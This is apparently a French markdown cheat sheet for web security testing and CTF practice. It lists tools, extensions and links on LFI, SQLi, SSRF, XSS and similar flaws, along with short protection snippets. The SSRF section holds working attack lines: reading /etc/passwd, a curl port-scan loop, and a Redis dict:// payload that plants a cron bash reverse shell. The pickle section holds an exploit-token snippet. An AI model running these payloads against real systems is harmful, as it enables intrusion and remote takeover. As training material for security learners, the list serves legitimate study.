

## Outils

- [Burp](https://portswigger.net/burp)
- [Curl (cheatsheet)](https://devhints.io/curl)
- [Jwt_tool](https://github.com/ticarpi/jwt_tool)
- [Beeceptor](https://beeceptor.com/)

- [CSP Evaluator](https://csp-evaluator.withgoogle.com/)
- [Gopherus](https://github.com/tarunkant/Gopherus)
- [RSS Validator](https://validator.w3.org/feed/)
- [Tplmap](https://github.com/epinna/tplmap)

- [Wayback machine ](https://archive.org), https://archive.md/ (web archive par mots clés & copie de sites)

## Extensions

### Firefox

- [Hacktools](https://addons.mozilla.org/fr/firefox/addon/hacktools/)
- [Wappalyzer](https://addons.mozilla.org/fr/firefox/addon/wappalyzer/)
- [ProtonPass](https://proton.me/fr/pass/download)
- [Ublock](https://addons.mozilla.org/fr/firefox/addon/ublock-origin/)
- [DotGit](https://github.com/davtur19/DotGit) **avec** https://github.com/arthaud/git-dumper

### Burp

`Never trust user input`

- [Hackvertor](https://github.com/hackvertor/hackvertor)
- [JWT](https://portswigger.net/bappstore/f923cbf91698420890354c1d8958fee6)
- [JWT Editor](https://portswigger.net/bappstore/26aaa5ded2f74beea19e2ed8345a93dd)
- [Param Miner](https://github.com/portswigger/param-miner)

## Doc

- http://wikisecu.fr/doku.php?id=web

- https://owasp.org/www-community/Source_Code_Analysis_Tools

- [Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings)

- [Hacktricks](https://book.hacktricks.xyz/welcome/readme), [Hacktricks - Bypass 403](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/403-and-401-bypasses)

- [Cheatsheet XSS (Ruulian)](https://0xhorizon.eu/fr/cheat-sheet/xss/)

- https://www.nzeros.me/2023/08/07/securinetsminictf2k22/

- https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Spring%20boot%20-%20Reference%20guide.pdf

**Serveur**

### GraphQL

 - https://www.next-decision.fr/wiki/differentes-categories-api-majeures-rest-soap-graphql
 - https://blog.yeswehack.com/yeswerhackers/how-exploit-graphql-endpoint-bug-bounty/
 - https://ivangoncharov.github.io/graphql-voyager/




### LFI

- https://www.clever-age.com/owasp-local-remote-file-inclusion-lfi-rfi/

`Protection`: 

```php
<?php
$file = basename(realpath($_GET["filename"]));
include("pages/$file");
?>
```

### SQLi
  - https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/
  - https://www.invicti.com/blog/web-security/fragmented-sql-injection-attacks/

`Protection`: [quoted & prepared statements](https://phpdelusions.net/mysqli_examples/prepared_select)

### PHP

  - **Bypass `preg_match(" | _/")`** : `.`, ou `]` ou encore d'autres caractères peuvent remplacer `_`:  https://ctftime.org/writeup/11535 
  -  https://borelenzo.github.io/stuff/2023/10/31/hidden-in-plain-sight.html
  - `Type Juggling` https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf
  - `Eval` https://www.defenxor.com/blog/writing-simple-php-non-alphanumeric-backdoor-to-evade-waf/
  - `Serialize` https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/PHP.md

### Python

  - `Flask`: https://ctftime.org/writeup/36100
  - `Pickle`: https://exploit-notes.hdks.org/exploit/web/framework/python/python-pickle-rce/

  ```python
  #protocol <= 2: python2, 2<protocol<=4: python3
  token = base64.b64encode(pickle.dumps(Exploit(), protocol=0))
  ```

### SSRF
  - https://www.vaadata.com/blog/fr/comprendre-la-vulnerabilite-web-server-side-request-forgery-1/
  - https://www.dailysecurity.fr/server-side-request-forgery/

```bash
file://index.php
file:///etc/passwd

for i in {1..10000}; do curl -s -i http://site.org/index.php --data "url=http://localhost:$i" | grep 'Content-Length'| xargs echo "$i:"; done
dict://127.0.0.1:6379/set -.- "\n\n\n* * * * * bash -i >\x26 /dev/tcp/<ip>/<port> 0>\x261\n\n\n"
```

### XSS

[Stored & Reflected XSS (hackndo)](https://beta.hackndo.com/attaque-xss/)
https://brightsec.com/blog/xss/#xss-types
https://blog.clever-age.com/fr/2014/02/10/owasp-xss-cross-site-scripting/
https://excess-xss.com/

### XXE
  - https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity
 
--------

**Client**

### Obfu

- https://obf-io.deobfuscate.io/
- https://js.retn0.kr/

### AST

- https://seal9055.com/blog/browser/browser_architecture


### XSS
 - https://beta.hackndo.com/attaque-xss/
 - https://excess-xss.com/
 - https://learn-cyber.net/article/Self-XSS-Attacks
 - https://learn-cyber.net/article/Reflected-XSS-Attacks

`Protection`: HTML-encode les entrées utilisateurs, CSP

`Reflected XSS`

Report link:

```html
https://vulnerable.org?parameter=
```

[Dom Based XSS](https://blog.cyxo.re/pwnme-2022/pimp-my-bicycle/)

-> appel ou accès aux éléments du DOM (ex document.getElementByID)

[CSP Bypass](https://csplite.com/csp320/)


### HTTP Smuggling

- https://franso.re/fr/blog/http_rs_pour_les_nuls

## Exercices

- https://alert.zeyu2001.com/
